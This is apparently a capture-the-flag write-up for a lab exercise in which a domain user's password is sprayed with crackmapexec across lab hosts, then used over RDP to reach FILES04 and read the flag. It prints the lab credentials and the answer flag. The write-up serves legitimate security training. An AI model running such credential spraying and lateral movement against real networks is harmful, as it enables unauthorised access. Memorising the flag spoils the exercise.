 Topics: Capstone Exercise
# Questions 3
Capstone Exercise: Once VM Group 3 is started, the domain corp.com has been modified. Log in as leon on CLIENT74 and use the techniques discussed in this Module to move laterally and get the flag on FILES04 Administrator's desktop.

# HINT
Once logged into CLIENT74, you are expected to figure out current users' groups and privileges.
Consider spraying the current user's credentials across the network to identify any potentially useful outcomes.

# Answer
OS{e0f77f226846c343cf16482eec774e45}

xfreerdp /cert-ignore /u:leon /p:HomeTaping199! /d:corp.com /v:192.168.185.74 +drive:/home/kali/Desktop,/smb

# Launch powershell
PS C:\Tools> whoami /groups
...
BUILTIN\Administrators                     Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Remote Desktop Users
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization
...

# Perform password spraying
sudo crackmapexec smb 192.168.185.70-76 -u leon -p 'HomeTaping199!' -d corp.com --continue-on-success
...
SMB         192.168.185.74  445    CLIENT74         [+] corp.com\leon:HomeTaping199! (Pwn3d!)
SMB         192.168.185.73  445    FILES04          [+] corp.com\leon:HomeTaping199! (Pwn3d!)
...

# RDP Access to the FILES04
xfreerdp /cert-ignore /u:leon /d:corp.com /p:HomeTaping199! /v:192.168.185.73

PS C:\Users\Administrator\Desktop> type proof.txt
OS{e0f77f226846c343cf16482eec774e45}


